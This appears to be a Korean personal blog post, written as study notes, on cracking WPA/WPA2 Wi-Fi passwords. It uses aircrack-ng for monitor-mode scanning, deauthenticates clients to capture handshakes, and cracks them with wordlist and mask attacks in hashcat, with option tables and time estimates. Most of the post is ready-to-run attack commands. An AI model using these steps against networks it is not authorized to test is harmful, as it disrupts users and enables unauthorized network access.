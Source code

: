 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```

# Aircrack

```shell
iwconfig #랜카드 이름 확인
airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
airodump-ng wlan0 --band a -w [파일명] #파일로 저장
airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

사용예시
![](/assets/images/posts/2025-03-26-aircrack/bea8c9475a9856ca2c6d5ff48d3082dc_MD5.jpeg)
## 🛰️ 상단: AP (Access Point) 정보 테이블

| 항목명            | 의미                                           |
| -------------- | -------------------------------------------- |
| **BSSID**      | AP의 MAC 주소 (무선 공유기의 고유 식별자)                  |
| **PWR**        | 수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함 |
| **Beacons**    | 일정 간격으로 AP가 송신하는 비콘 패킷의 수                    |
| **#Data, #/s** | 데이터 패킷 수 및 초당 전송 속도                          |
| **CH**         | 채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)                 |
| **MB**         | 최대 전송 속도 (Mbps)                              |
| **ENC**        | 암호화 방식 (Encryption: WPA2, WPA3 등)            |
| **CIPHER**     | 암호화에 사용되는 알고리즘 (예: CCMP, TKIP)               |
| **AUTH**       | 인증 방식 (예: PSK = Pre-shared Key, SAE 등)       |
| **ESSID**      | 네트워크 이름 (Wi-Fi SSID)                         |

## 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

```text
#기타정보
PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25
```


Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

# hashcat으로 크랙

딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |

hashcat은 훨씬 빠르고 GPU 지원도 돼서 `aircrack-ng`보다 나아요.
~~그런데 써보니까 GPU가 죽으려해요~~
![](/assets/images/posts/2025-03-26-aircrack/b2a7f50f00c6af8e529d2ec1cd1a9018_MD5.jpeg)

## 이 GPU의 성능

|항목|내용|
|---|---|
|GPU 종류|**내장 그래픽** (iGPU)|
|성능 수준|엔트리급 (게이밍/병렬처리 성능 낮음)|
|OpenCL 지원|**있긴 하지만 매우 제한적**|
|해시 처리 성능|약 **2~10k H/s (초당 수천 해시)** 수준|

---

## 🎯 해시캐팅 속도 예시

`hashcat -m 22000 -a 3 ?u?u?u?u?d?d?d?d`  
(앞 4자리 대문자 + 뒤 4자리 숫자 = 약 4.56억 조합)

### ⏱ 대략 계산해보면:

예를 들어 **초당 5000 해시 처리**된다고 가정하면:
```
456,000,000 / 5,000 = 91,200초 ≈ 25시간
```

만약 속도가 더 낮아서 **2000 H/s**라면:
```
456,000,000 / 2,000 = 228,000초 ≈ 63시간
```
*이 시간들 또한 정규식 예측이 가능 하다는 가정하에 이루어진 시간 입니다.*
